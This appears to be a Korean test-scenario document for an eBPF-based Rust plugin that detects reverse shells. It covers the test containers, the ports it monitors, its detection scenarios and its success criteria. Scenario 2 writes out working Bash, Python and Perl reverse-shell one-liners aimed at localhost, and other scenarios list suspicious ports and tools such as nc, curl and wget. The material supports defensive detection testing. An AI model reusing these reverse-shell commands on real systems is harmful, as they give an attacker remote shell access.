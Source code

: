 # Reverse Shell Plugin Test Scenarios

이 문서는 `reverse_shell.rs` 플러그인의 테스트 시나리오를 설명합니다.

## 테스트 환경 구성

### 1. reverse-shell-plugin-test (메인 플러그인 테스트 컨테이너)
- **역할**: `reverse_shell.rs` 플러그인 실행 및 테스트
- **기능**:
  - eBPF 기반 커널 후킹
  - 실시간 이벤트 탐지
  - 플러그인 기능별 테스트 실행
  - 탐지 결과 수집 및 분석

### 2. reverse-shell-targets (타겟 서버 컨테이너)
- **역할**: 의심스러운 포트에서 리스너 실행
- **기능**:
  - 9개 의심스러운 포트에서 리스너 실행
  - 플러그인 테스트용 연결 수신
  - 다양한 리버스 쉘 패턴 시뮬레이션

### 3. plugin-monitor (플러그인 모니터링 컨테이너)
- **역할**: 플러그인 활동 실시간 모니터링
- **기능**:
  - 네트워크/프로세스 상태 확인
  - eBPF 프로그램 상태 확인
  - 시스템 리소스 모니터링

## 테스트 시나리오

### 시나리오 1: 의심스러운 포트 연결 탐지
**목적**: 알려진 리버스 쉘 포트로의 연결 탐지

**테스트 포트**:
- 4444 (Netcat 기본 포트)
- 1337 (Leet 포트)
- 31337 (Back Orifice 포트)
- 9001, 9002 (Python 리버스 쉘 포트)
- 6667, 6668, 6669 (IRC 포트)
- 8080 (HTTP 대안 포트)

**예상 결과**: `EventType::SuspiciousConnection` 이벤트 생성

### 시나리오 2: 리버스 쉘 패턴 탐지
**목적**: 다양한 리버스 쉘 패턴 탐지

**테스트 패턴**:
1. **Netcat 리버스 쉘**:
   ```bash
   bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
   ```

2. **Python 리버스 쉘**:
   ```python
   import socket,subprocess,os
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
   s.connect(('127.0.0.1',9001))
   os.dup2(s.fileno(),0)
   os.dup2(s.fileno(),1)
   os.dup2(s.fileno(),2)
   subprocess.call(['/bin/sh','-i'])
   ```

3. **Perl 리버스 쉘**:
   ```perl
   use Socket;$i="127.0.0.1";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
   ```

**예상 결과**: `EventType::ReverseShellDetected` 이벤트 생성

### 시나리오 3: 외부 연결 탐지
**목적**: 프라이빗 네트워크 외부로의 연결 탐지

**테스트 대상**:
- 8.8.8.8 (Google DNS)
- 1.1.1.1 (Cloudflare DNS)
- 208.67.222.222 (OpenDNS)

**예상 결과**: `EventType::NetworkAnomaly` 이벤트 생성

### 시나리오 4: 의심스러운 프로세스 탐지
**목적**: 의심스러운 프로세스 실행 탐지

**테스트 프로세스**:
- netcat (nc)
- wget
- curl
- python3
- perl

**예상 결과**: `EventType::ProcessInjection` 이벤트 생성

### 시나리오 5: 커널 후킹 기능 테스트
**목적**: eBPF 커널 후킹 기능 검증

**테스트 내용**:
- XDP 프로그램 로드 확인
- Tracepoint 프로그램 로드 확인
- eBPF 맵 초기화 확인
- 커널 이벤트 처리 확인

**예상 결과**: `EventType::KernelHookTriggered` 이벤트 생성

## 모니터링 지표

### 네트워크 모니터링
- `/proc/net/tcp` 파일 분석
- `/proc/net/tcp6` 파일 분석
- 네트워크 연결 상태 확인
- 포트별 연결 통계

### 프로세스 모니터링
- 실행 중인 프로세스 목록
- 의심스러운 프로세스 패턴 매칭
- 프로세스 생성 이벤트 추적

### eBPF 모니터링
- eBPF 프로그램 상태 확인
- 커널 모듈 로드 상태
- eBPF 맵 상태 확인
- 이벤트 전송 상태

### 시스템 리소스 모니터링
- CPU 사용률
- 메모리 사용률
- 네트워크 대역폭
- 디스크 I/O

## 성공 기준

### 탐지 정확도
- 의심스러운 포트 연결 탐지율: > 95%
- 리버스 쉘 패턴 탐지율: > 90%
- 외부 연결 탐지율: > 98%
- 의심스러운 프로세스 탐지율: > 85%

### 성능 기준
- 이벤트 처리 지연시간: < 100ms
- 메모리 사용량: < 100MB
- CPU 사용률: < 10%
- 네트워크 오버헤드: < 1%

### 안정성 기준
- 24시간 연속 실행 안정성
- 메모리 누수 없음
- 크래시 없음
- 정상적인 정리 및 종료

## 테스트 실행 방법

```bash
# 전체 테스트 실행
./tests/scripts/run_tests.sh

# 개별 컨테이너 테스트
docker-compose -f tests/docker/docker-compose.yml up --build

# 플러그인 직접 테스트
cd agent/linux_agent
cargo run --example plugin_test
```
